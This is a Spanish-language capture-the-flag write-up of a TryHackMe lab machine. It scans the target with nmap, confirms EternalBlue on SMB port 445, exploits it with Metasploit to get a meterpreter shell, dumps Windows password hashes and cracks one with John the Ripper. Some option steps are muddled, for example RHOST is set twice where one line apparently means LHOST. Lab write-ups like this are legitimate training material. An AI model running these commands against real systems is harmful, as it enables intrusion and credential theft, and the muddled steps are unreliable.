Como ya tenemos la IP no hace falta realizar un reconocimiento de HOST.

- IP victima `10.10.59.5`

## Comprobar si tengo conexión
```
ping -c 1 10.10.59.5
```
<p align="center">
    
</p>

# Reconocimiento

## NMAP
```
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.59.5 -oN basic_scan
```
<p align="center">
    
</p>

# ENUMERACIÓN

## NMAP
```
nmap -p135,139,445,3389,49152,49143,49154,49158,49160 -sVC --min-rate 5000 -n -Pn -vvv 10.10.59.5 -oN ports_scan
```
<p align="center">
    
</p>
<p align="center">
    
</p>
<p align="center">
    
</p>
Pruebo si el puerto 445, es vulnerable al **ETERNAL BLUE**

### PUERTO 445 - SMB
- Pruebo si es vulnerable a la vulnerabilidad de **eternal blue**. Los pasos que hay que seguir son:
```
nmap --script "vuln and safe" -n -Pn -p445 10.10.59.5 -oN vulnScan
```
<p align="center">
    
</p>
Es vulnerable.

#### 1- INICIAR METASPLOIT
```
msfconsole -q
```
<p align="center">
    
</p>

####  2-BUSCAR EXPLOIT
```
search eternalblue
```
<p align="center">
    
</p>

#### 3- COMPRUEBO SI ES VULNERABLE
```
use 24
```
<p align="center">
    
</p>
- Veo las opciones que tiene
```
show options
```
<p align="center">
    
</p>

- Configuro RHOST que es la IP de la máquina victima. Y vuelvo a revisar las opciones
```
set RHOST 10.10.59.5
```
```
show options
```
<p align="center">
    
</p>

- Ejecuto para ver si es vulnerable a **ETERNALBLUE**
```
run
```
<p align="center">
    
</p>
Es vulnerable

# EXPLOTACIÓN

#### 4- USO EL EXPLOIT
- Voy a usar el exploit con el ID 24
```
use 0
```
<p align="center">
    
</p>
#### 5- VER/CAMBAIR OPCIONES
- Veo las opciones que tiene
```
show options
```
<p align="center">
    
</p>

- Solo tengo que introducir la IP de la máquina victima y cambiar mi IP, porque al estar en TRYHACME me da otro rango la IP `10.2.37.7`. NO HAY QUE PONERSE A LA ESCUCHA. Me da directamente un `meterpreter`. 
```
set RHOST 10.10.231.27
```
```
set RHOST 10.2.37.7
```
```
show options
```
<p align="center">
    
</p>

#### 6- Ejecutar el exploit
```
run
```
<p align="center">
    
</p>
Ahora hemos recibido un shell, pero no podemos hacer mucho con él. Por lo tanto, ahora ponemos en segundo plano la sesión (1.ª) y actualizamos a un shell de meterpreter

Para cambiar la carga útil, podemos cambiar el PAYLOAD ,utilice el comando:
```
set payload windows/x64/shell/reverse_tcp
```


# POST-EXPLOTACIÓN

Para poner el `meterpreter` en segundo plano usamos
```
CTRL + Z
```
<p align="center">
    
</p>

Si quiero ver la sesión del `meterpreter`
```
sessions -l
```
<p align="center">
    
</p>

Para volver al `meterpreter`
```
sessions 1
```
<p align="center">
    
</p>

#### CRACKING
Estando con el `meterpreter` ya puedo ejecutar comandos.

##### HASHES
Podemos volcar las contraseña con el comando
```
hashdump
```
<p align="center">
    
</p>

Copiamos el hash equivalente a Jon y lo guardamos en un archivo en el escritorio.
```
hashJon
```
<p align="center">
    
</p>
<p align="center">
    
</p>

A continuación, utilizamos la herramienta “ **John the Ripper** ” para descifrar el hash.

##### JOHN THE RIPPER
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=nt hashJon 
```
<p align="center">
    
</p>

##### ENCONTRAR BANDERAS
Me paso del meterpreter a una shell de windows
```
shell
```
<p align="center">
    
</p>

###### flag1
<p align="center">
    
</p>

###### flag2
<p align="center">
    
</p>

###### flag3
<p align="center">
    
</p>


